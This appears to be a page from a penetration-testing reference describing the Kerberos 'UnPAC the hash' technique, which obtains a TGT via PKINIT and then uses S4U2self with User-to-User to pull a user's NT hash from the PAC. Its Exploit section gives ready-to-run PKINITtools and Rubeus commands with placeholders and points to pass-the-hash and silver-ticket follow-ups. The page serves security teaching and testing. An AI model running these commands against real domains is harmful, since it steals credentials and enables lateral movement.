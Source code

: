 ## Theory
When using PKINIT to obtain a TGT (Ticket Granting Ticket), the KDC (Key Distribution Center) includes in the ticket a `PAC_CREDENTIAL_INFO` structure containing the NTLM keys (i.e. LM and NT hashes) of the authenticating user. This feature allows users to switch to NTLM authentications when remote servers don't support Kerberos, while still relying on an asymmetric Kerberos pre-authentication verification mechanism (i.e. PKINIT).

The NTLM keys will then be recoverable after a TGS-REQ through U2U, combined with S4U2self, which is a Service Ticket request made to the KDC where the user asks to authenticate to itself (i.e. S4U2self + User-to-User authentication).

To use this extension, the TGS-REQ request must contain an additional TGT (additional tickets field). The `ENC-TKT-IN-SKEY` option = True, will indicate that the session key of the additional ticket will be used to encrypt the new service ticket to be issued, instead of using the server's key for which the new ticket will be used. In addition to a service name (`sname`) which can be the client itself (note: the client doesn't necessarily have to have an SPN set) ([More information](https://labs.lares.com/fear-kerberos-pt2/#UNPAC))
## Exploit
=== "UNIX-like"
    From UNIX-like systems, this attack can be conducted with [PKINITtools](https://github.com/dirkjanm/PKINITtools) (Python).

    The first step consists in obtaining a TGT by validating a PKINIT pre-authentication first.
    ```bash
    gettgtpkinit.py -cert-pfx "PATH_TO_CERTIFICATE" -pfx-pass "CERTIFICATE_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
    ```
    Once the TGT is obtained, and the session key extracted (printed by gettgtpkinit.py), the getnthash.py script can be used to recover the NT hash.
    ```bash
    export KRB5CCNAME="TGT_CCACHE_FILE"
    getnthash.py -key 'AS-REP encryption key' 'FQDN_DOMAIN'/'TARGET_SAMNAME'
    ```
    The NT hash can be used for pass-the-hash, silver ticket, or Kerberos delegations abuse.
=== "Windows"
    From Windows systems, Rubeus (C#) can be used to requesting a ticket using a certificate and use /getcredentials to retrieve the NT hash in the PAC.
    ```bash
    Rubeus.exe asktgt /getcredentials /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
    ```